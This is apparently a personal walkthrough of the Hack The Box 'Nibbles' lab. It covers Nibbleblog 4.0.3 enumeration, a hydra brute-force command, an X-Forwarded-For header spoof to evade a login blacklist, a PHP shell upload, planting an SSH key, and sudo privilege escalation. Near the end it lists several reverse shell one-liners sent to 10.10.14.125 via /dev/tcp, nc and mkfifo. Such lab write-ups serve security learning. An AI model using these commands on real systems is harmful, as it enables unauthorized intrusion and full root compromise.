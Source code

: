 Doing some initial recon we see that there is a directory /nibbleblog/ from html comments
from there start enumeration and also find that there are some exploits with nibbleblog

http://10.129.223.180/nibbleblog/update.php -> shows us the version we are working with
- Nibbleblog 4.0.3 "Coffee"
- Which is an arbitrary file upload

/admin lets you view the directory (uploader (copy) .php (copy) ???)

/nibbleblog/content/private/users.xml
- username is admin

https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/
sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"
sudo hydra -l admin -P ./../../../tools/lists/rockyou.txt 10.129.237.80 http-post-form "/nibbleblog/admin.php:username=admin&password=^PASS^:security error"

we get blacklisted...so need to find a way out of it
http://10.129.237.80/nibbleblog/admin/boot/rules/4-blacklist.bit????

blacklisted, look for ways to get around it, maybe spoof request headers or something
if its on htb chances are there is a way to bypass

taking a look into ways they could be blacklisting us other than IP address (prob cant spoof that on htb vpn)
maybe we can spoof client headers:
 - https://security.stackexchange.com/questions/8721/benefits-of-identifying-clients-based-upon-the-x-forwarded-for-or-similar-http
looking at the first one we can do `X-Forwarded-For: 127.0.0.1`
That actually works!
- Now maybe there is a way to do this with hydra??

admin:nibbles works, so try the challenge name for both username and password
look at blogs to potentially find a faster way around things????

this blog made it pretty easy without having to really code anything
https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

upploaded a php shell

saw that it was using ssh, so tried a cheecky thing and uploaded my pub key to the server to try and ssh into it
`mkdir ~/.ssh`
`echo "[pub_key]" > ~/.ssh/authorized_keys`
`ssh -i .ssh/id_ed25519 nibbler@10.129.244.45`

got ssh access!
from there we unzip personal.zip, we go ahead and unzip it and get monitor.sh

taking a side look, we run `sudo -l` and we see that `(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh`

maybe there is a password somewhere else??
tried to download and run linpeas but no permission for that

NOTE: Always look at the NOPASSWD when sudo -l
`echo "/bin/sh -i >& /dev/tcp/10.10.14.125/6000 0>&1" > monitor.sh`
`echo "nc -e /bin/sh 10.10.14.125 6000" > monitor.sh`
`echo "/bin/bash -l > /dev/tcp/10.10.14.125/6000 0<&1 2>&1" > monitor.sh`
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.125 6000 >/tmp/f" > monitor.sh`

Ran through a bunch of reverse shell commands till I got something to work (last one)
then executed the script with sudo
`sudo /home/nibbler/personal/stuff/monitor.sh`

setup the reverse shell listener, and you got it!